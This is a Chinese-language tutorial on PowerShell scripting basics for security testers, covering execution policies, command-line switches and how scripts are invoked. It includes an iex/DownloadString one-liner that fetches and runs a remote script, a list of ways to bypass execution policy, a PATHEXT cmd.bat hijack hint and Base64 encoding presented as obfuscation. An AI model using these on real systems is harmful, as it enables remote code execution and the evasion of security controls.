 # Powershell(3)-脚本执行基础


## 开始之前 
我们在开始之前先来介绍在windows平台中常用到的几种脚本

### Bat
这就是我们常用的Bat脚本，全名为批处理文件，脚本中就是我们在CMD中使用到的命令，这里提一个小问题：
CMD的命令行执行命令的优先级是`.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH`，那么假如我通过修改PATHEXT解析顺序后放一个cmd.bat在system32目录下，那么优先执行的是cmd.bat，这里面的内容就变得不可描述起来了

### VBscript

执行vbs就是常说的vbscript,是微软为了方便自动化管理windows而推出的脚本语言，这里了解一下即可，不是文章重点。

```vbs
一个小例子通过vbs操作WMI
Set wmi = GetObject("winmgmts:")
Set collection = wmi.ExecQuery("select * from Win32_Process")
For Each process in collection
WScript.Echo process.getObjectText_
Next
```

## Powershell

这就是我们的主角，在现在和未来一定是powershell占据主要地位(对于这一点搞Win多一点的朋友一定不会怀疑)，首先我们来看一个简单的例子

```powershell
script.ps1:
# 脚本内容
function test-conn { Test-Connection  -Count 2 -ComputerName $args}

# 载入脚本文件
.\script.ps1

# 调用函数
test-conn localhost
```

### Powershell执行策略

那么你可能会在调用脚本的时候出现报错，这是powershell的安全执行策略，下面我们来了解一下执行策略：
PowerShell 提供了 Restricted、AllSigned、RemoteSigned、Unrestricted、Bypass、Undefined 六种类型的执行策略
简单介绍各种策略如下：

|名称|说明|
|:------|:------|
|Restricted|受限制的，可以执行单个的命令，但是不能执行脚本Windows 8, Windows Server 2012, and Windows 8.1中默认就是这种策略，所以是不能执行脚本的，执行就会报错，那么如何才能执行呢？Set-ExecutionPolicy -ExecutionPolicy Bypass就是设置策略为Bypass这样就可以执行脚本了。|
|AllSigned|AllSigned 执行策略允许执行所有具有数字签名的脚本|
|RemoteSigned|当执行从网络上下载的脚本时，需要脚本具有数字签名，否则不会运行这个脚本。如果是在本地创建的脚本则可以直接执行，不要求脚本具有数字签名。|
|Unrestricted|这是一种比较宽容的策略，允许运行未签名的脚本。对于从网络上下载的脚本，在运行前会进行安全性提示。需要你确认是否执行脚本|
|Bypass|Bypass 执行策略对脚本的执行不设任何的限制，任何脚本都可以执行，并且不会有安全性提示。|
|Undefined|Undefined 表示没有设置脚本策略。当然此时会发生继承或应用默认的脚本策略。|



那么我们如何绕过这些安全策略呢？下面提供几种方法，网上还有很多的绕过方法，大家可以自行研究：

|名称|说明|
|:---|:---|
|Get-ExecutionPolicy|获取当前的执行策略|
|Get-Content .\test.ps1 \| powershell.exe -noprofile -|通过管道输入进ps|
|powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')"|通过远程下载脚本来绕过|
|$command = "Write-Host 'Hello World!'"<br>$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) <br>$encodedCommand = [Convert]::ToBase64String($bytes) <br>powershell.exe -EncodedCommand $encodedCommand|通过BASE64编码执行|

### powershell的脚本调用方法：

1. 如果脚本是直接写的代码而不是只定义了函数那么直接执行脚本.\script.ps1即可
2. 但是如果是载入里面的函数需要`.+空格+.\script.ps1`
3. 或者使用Import-Module .\script.ps1, 这样才能直接使用脚本的函数

## 通过控制台执行Powershell

对于我们安全测试人员通常获取到的一个Shell是CMD的, 那么我们想要尽可能少的操作就可以直接通过控制台来执行powershell的命令, 那么先来看一个简单的例子:

![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/ps3/1.png)
可以看到我们通过CMD界面执行了Powershell的代码, 那么其实这样的执行方式在真实的安全测试环境中利用更多, 下面是一个Powershell通过这种方式执行的所有可选的参数:

```powershell
PowerShell[.exe]
       [-PSConsoleFile <file> | -Version <version>]
       [-EncodedCommand <Base64EncodedCommand>]
       [-ExecutionPolicy <ExecutionPolicy>]
       [-File <filePath> <args>]
       [-InputFormat {Text | XML}] 
       [-NoExit]
       [-NoLogo]
       [-NonInteractive] 
       [-NoProfile] 
       [-OutputFormat {Text | XML}] 
       [-Sta]
       [-WindowStyle <style>]
       [-Command { - | <script-block> [-args <arg-array>]
                     | <string> [<CommandParameters>] } ]

PowerShell[.exe] -Help | -? | /?
```
|名称|解释|
|:--|:--|
|-Command |需要执行的代码|
|-ExecutionPolicy |设置默认的执行策略，一般使用Bypass |
|-EncodedCommand | 执行Base64代码|
|-File | 这是需要执行的脚本名|
|-NoExit | 执行完成命令之后不会立即退出，比如我们执行powerhsell whoami 执行完成之后会推出我们的PS会话，如果我们加上这个参数，运行完之后还是会继续停留在PS的界面|
|-NoLogo | 不输出PS的Banner信息|
|-Noninteractive | 不开启交互式的会话|
|-NoProfile | 不使用当前用户使用的配置文件|
|-Sta | 以单线程模式启动ps|
|-Version | 设置用什么版本去执行代码|
|-WindowStyle | 设置Powershell的执行窗口，有下面的参数Normal, Minimized, Maximized, or Hidden|

最后举一个执行Base64代码的例子:

1. 我们先试用上面一个表格提到的编码代码编码命令`whoami`, 得到字符串:`dwBoAG8AYQBtAGkACgA=`
2. 通过下面的命令来执行代码

```powershell
powershell -EncodedCommand dwBoAG8AYQBtAGkACgA=
```
![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/ps3/2.png)

那么这种需求在什么地方呢? 比如我们的代码特别长或者会引起一起歧义的时候就需要我们使用这种方式去执行, 同时也是一个混淆的方式。
